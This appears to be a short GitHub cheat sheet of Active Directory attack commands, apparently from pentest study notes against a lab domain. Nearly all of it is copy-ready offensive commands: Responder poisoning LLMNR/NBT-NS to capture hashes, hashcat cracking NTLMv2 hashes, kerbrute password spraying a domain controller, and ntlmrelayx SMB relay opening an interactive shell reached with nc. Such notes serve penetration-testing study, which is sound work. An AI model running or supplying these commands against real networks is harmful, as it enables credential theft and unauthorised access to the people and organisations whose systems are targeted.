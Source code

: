 # Initial Foot-printing


### LLMNR / NBT-NS Poisoning

To run responder tool to catch hashes:

```
sudo responder -I eth0
```

To use hashcat for crack NTLM hashes:

```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Password-Spray

To use kerbrute tool for passwordspray:

```
./kerbrute_linux_amd64 passwordspray --dc 192.168.68.132 -d GEMY.local users.txt Password123!
```

### SMB-Relay

To use ntlmrelayx tool to extract hashes:

Nmap scan to check for smb :

```
nmap --script=smb2-security-mode -p445 -Pn 192.168.68.134
```

responder
-open responder.conf, SMB,HTTP : set to off

```
sudo responder -I eth0
```

ntlmrelayx tool:

```
python3 ntlmrelayx.py -tf target.txt -smb2support  //target include #DC-IP
```

use -i to open a shell like PTH attack:

```
python3 ntlmrelayx.py -tf target.txt -smb2support -i
```

in another tab,

```
nc 127.0.0.1:11000
```
